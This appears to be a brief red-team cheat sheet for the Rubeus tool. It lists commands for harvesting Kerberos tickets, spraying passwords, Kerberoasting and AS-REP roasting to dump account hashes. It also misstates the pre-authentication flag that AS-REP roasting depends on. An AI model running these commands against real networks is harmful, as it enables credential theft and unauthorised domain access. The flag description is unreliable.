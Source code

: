 # Rubeus

## Ticket Harvesting

Listen for incoming TGT calls on the DC. Allows to harvest TGT tickets and users in the domain

```
Rubeus.exe harvest /interval:<seconds>
```

## Password Spraying

Allows to spray a selected password against the users detected with the previous attack

```
Rubeus.exe brute /password:<password> /noticket
```

## Kerberoast

Returns a list of services vulnerable to Kerberoast attacks and relative Kerberos Hash

<pre><code>.\Rubeus.exe kerberoast /stats    #get information on vulnerable accounts
<strong>Rubeus.exe kerberoast             #dump hashes
</strong></code></pre>

## AS-REP Roasting

Returns hasehs of users with  the flag "Do not require Kerberos pre-authentication" disabled

```
Rubeus.exe asreproast
```
